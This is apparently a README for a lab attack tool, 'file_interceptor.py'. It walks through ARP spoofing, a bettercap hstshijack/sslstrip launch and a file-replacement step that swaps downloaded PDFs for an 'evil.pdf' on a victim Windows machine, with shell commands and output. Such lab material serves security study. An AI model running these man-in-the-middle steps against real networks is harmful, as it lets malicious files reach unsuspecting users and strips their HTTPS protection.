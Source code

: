 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        Specify a file extension
  -d DESTINATION, --destination DESTINATION
                        Destination (sslstrip, forward, local)
  -u URL, --url URL     Specify a replace url
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in /var/www/html/evil/
* Run the [arp_spoofer.py script](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
@kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
@kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine.

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)